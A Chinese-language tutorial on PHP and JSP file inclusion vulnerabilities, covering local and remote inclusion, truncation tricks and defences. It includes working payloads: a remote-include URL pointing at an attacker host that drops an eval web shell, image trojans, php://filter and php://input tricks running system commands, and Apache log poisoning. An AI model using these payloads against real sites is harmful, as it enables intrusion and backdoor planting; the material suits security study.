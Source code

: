 # 文件包含漏洞


文件包含之所以是漏洞，是因为它能产生漏洞，它包含了任意文件。文件包含可以分为本地文件包含和远程文件包含两种。这里要注意，文件包含本身不是漏洞，和文件上传一样，它本身不是漏洞，而只是攻击者利用了包含的特性，再加上了应用本身对文件控制不严，对include进来的文件不可控，最终造成了攻击者进行任意文件包含。顾名思义，本地文件包含就是通过URL将服务器本地的其他文件include进来。远程文件包含就是将远程服务器的文件include进来。最主要的是，包含进来的文件都以当前脚本文件解析，比如，我们当前测试系统是Apache加php环境，那么被include进来的文件，不管是什么类型，比如说图片，文本文档，这些文件被包含以后，都会被当做php脚本来解析。



## 什么是文件包含漏洞
服务器通过文件包含的特性，比如一些函数，去包含任意文件时，由于被包含进来的文件来源过滤不严，从而可以去包含一个恶意文件，而我们可以去构造一个这样的文件，来达到攻击的目的。以下我们将以php为例，来进行讲解。             
以PHP为例：                     
可用于包含的函数有：require、require_once、include、include_once                 
                    
本地文件包含：php.ini配置              
           
allow_url_fopen = On（默认开启）                 

我们一一对这几个函数的功能做一个介绍 

Include

当包含并运行指定文件时，包含的外部文件发生错误，系统会给出警告，但整个php文件还会继续执行。

Require

跟include唯一不同的是，当产生错误时，include下面继续运行，而require将停止运行。也就是说本身这个php文件会继续运行，但是require文件会停止运行。

include_once

和include没有什么区别，只是在导入函数之前先检测下该文件是否被include过，如果已经执行了一遍，那么久不在进行第二次的include操作。

require_once

同样和include_once是一样的道理，这里不做详细介绍。

另外，本地文件包含需要一个条件也就是php.ini配置，allow_url_fopen = On（默认开启）参数为on的时候，才能进行本地包含，但实际上我们的php默认就是开启的，因为我们应用里面本身就需要包含很多文件，那这个时候，如果不开启的话，包含会出错。



要想成功利用文件包含漏洞，需要满足下面两个条件：  
1.include()等函数通过动态变量的方式引入需要包含的文件。   
2.用户能够控制该动态变量     

### 一、本地文件包含
```php
<?php  
$file = $_GET['file'];  
if (file_exists('/home/wwwrun'.$file.'.php'))  
{  
    include '/home/wwwrun'.$file.'.php';  
}  
?>  
```

假如用户控制$file的值为“../../etc/passwd”，那么这段代码相当于include '/home/wwwrun/../../etc/passwd.php'，而这个文件显然是不存在的。
需要用到字符串截断技巧：PHP内核是由C语言实现的，因此使用了C语言中的一些字符串处理函数。在连接字符串时，0字节（\x00）将作为字符串结束符。所以在这个地方，攻击者只要在最后加入一个0字节，就能截断file变量之后的字符串，即：../../etc/passwd\0，通过Web输入时，只需要UrlEncode，变成../../etc/passwd%00,“../../../”的方式又被称为“目录遍历”。可以通过配置PHP的open_basedir来限制，其作用是限制在某个特定目录下PHP能打开的文件。例如 open_basedir = D:\soft\develop\env\\sites\www.a.com\, 在windows下多个目录应当用分号隔开，在Linux下则用冒号隔开。

要解决文件包含漏洞，一种方式是使用枚举即一种白名单的方式。             

### 二、远程文件包含
如果PHP的配置选项allow_url_include为ON的话，则include/require函数是可以加载远程文件的，这种漏洞被称为远程文件包含漏洞。
```php
require_once $basePath . '/action/m_share.php'  
```

攻击者可以构造如下的攻击URL /?param=http://attacker/phpshell.txt?   
最终加载的代码实际上执行了 require_once 'http://attacker/phpshell.txt?/action/m_share.php'                     
问号后面的代码被解释成URL的querystring，也是一种“截断”，这是在利用远程文件包含漏洞时的常见技巧。同样的，%00也可以用做截断符号。                           

### 三、本地文件包含的利用技巧
1.读取敏感文件                  
访问URL：http://www.xxser.com/index.php?page=/etc/passwd            
如果目标主机文件存在，并且有相应的权限，那么就可以读出文件的内容。反之，就会得到一个类似于;open_basedir restriction in effect的警告。           
2.远程包含Shell      
如果目标主机allow_url_fopen选项是激活的，就可以尝试远程包含一句话木马，如：http://www.attacker.com/echo.txt，代码如下：      
```php
<?php fputs(fopen("shell.php","w"),"<?php eval(\$_POST[xxser]);?>");?>
```
访问：http://www.example.com/index.php?page=http://www.attacker.com/echo.txt。 将会在index.php所在的目录下生成shell.php，内容为：
<?php eval($_POST[xxser]);?>

3.本地包含配合文件上传          
假设已经上传一句话图片木马到服务器，路径为：/uploadfile/xxx.jpg
图片代码如下：
```php<?php fputs(fopen("shell.php","w"),"<?php eval(\$_POST[xxser]);?>");?>
``` 
访问URL：http://www.example.com/index.php?page=./uploadfile/xxx.jpg， 包含这张图片，将会在index.php所在的目录下生成shell.php。

4.使用PHP封装协议            
4.1 使用封装协议读取PHP文件              
例子如下：
```url
http://www.example.com/index.php?page=php://filter/read=convert.base64-encode/resource=config.php
``` 
访问URL，得到经过Base64加密后的字符串，这段代码就是Base64加密过后的PHP源代码，解密后就可得到原本的“样貌”。

4.2 写入PHP文件       
在allow_url_include为On时，构造URL：http://www.example.com/index.php?page=php://input，并且提交数据为：<?php system('net user');?>
会得到net user命令的结果。           

5.包含Apache日志文件        
本地文件包含的利用。                               
Apache有两个日志文件：access.log（访问日志）和error.log（错误日志）。                  
攻击者先访问http://www.example.com/<?php phpinfo();?>,操作这一步时，需要Burp，否则<,>,空格都会被转码。          
随后访问http://www.xxser.com/index.php?page=./../Apache-20/logs/access.log                        
使用这种方式时，找到Apache的路径是关键。                 

6.截断包含     
```php
<?php
if(isset($_GET['page'])){
include $_GET['page'].".php";
}else{
include 'home.php';
}
?>
```

如果此时存在一个图片木马，名为1.jpg，可以输入如下URL：http://www.example.com/index.php?page=1.jpg%00     
当然这种方法只适用于magic_quotes_gpc=Off的情况下。      

7.绕过WAF防火墙                
图片木马一般不会被web杀毒软件查出来。          
                     
## 后记

include和require语句是相同的，除了错误处理方面：   
reuqire会生成致命错误（E_COMPILE_ERROR）并停止脚本   
include只生成错误报告（E_WARING），并且脚本会继续     
require和require_once的差别是，require重复调用会多次加载你引用的文件，而require_once只加载一次，而不管你实际上调用了多少次，主要用于复杂的文件包含关系。      
include和include_once的差别也可以以此类推。          



## JSP包含分两种方式：静态包含和动态包含。                 
### 一、静态包含
<%@include file="page.txt"%>为JSP的静态包含语句，静态包含语句先进行包含，再做处理操作。                  
JSP语法规定，include指令为静态包含，只允许包含一个已经存在于服务器中的文件，而不能使用变量来控制包含某个文件，这就意味着使用include指令将不存在文件包含漏洞。                    
### 二、动态包含
<jsp:inclde page="page.txt"/>为动态包含语句，在运行时会先处理被包含页面，然后再包含，而且可以包含一个动态页面（变量）。 
但在包含一个非JSP文件扩展名时，即使其内容符合JSP语法规范，也会只读取其源代码，而不会解析其JSP代码                                      
访问url：http://dnedh.com/jsp/GetHtml?fileName=./Web-info/web.xml&outName=out
out.html的内容是web.xml，但由于是一个合法的xml所以不会显示全部结果，但是可以查看源码来查看web.xml的内容，               

### 四、防御方法
1.严格判断包含的参数是否外部可控，因为文件包含漏洞利用成功与否的关键点就在于被包含的文件是否可被外部控制；      
2.路径限制：限制被包含的文件只能在某一文件夹内，一定要禁止目录跳转字符，如：“../”；                  
3.包含文件验证：验证被包含的文件是否是白名单中的一员；                 
4.尽量不要使用动态包含，可以在需要包含的页面固定写好，如：include("head.php");。         

